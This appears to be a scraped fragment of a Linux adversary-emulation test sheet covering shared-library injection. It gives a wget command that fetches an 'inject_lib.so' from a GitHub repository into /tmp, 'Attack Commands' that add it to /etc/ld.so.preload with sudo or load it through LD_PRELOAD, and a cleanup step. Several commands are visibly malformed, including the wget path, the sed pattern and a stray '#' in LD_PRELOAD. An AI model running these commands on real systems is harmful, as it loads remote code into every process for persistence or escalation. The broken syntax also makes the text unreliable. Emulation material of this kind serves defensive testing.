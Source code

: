   
 wget -P /tmp/https://github.com/jage1nf/testlib/blob/main/inject_lib.so  
  
1. Shared Library Injection via /etc/ld.so.preload  
Attack Commands:  
sudo sh -c 'echo /tmp/inject_lib.so > /etc/ld.so.preload'  
Cleanup Commands:  
sudo sed -i 's##/tmp/inject_lib.so##' /etc/ld.so.preload  
  
2. Shared Library Injection via LD_PRELOAD  
Attack Commands:  
LD_PRELOAD=#/tmp/inject_lib.so ls  
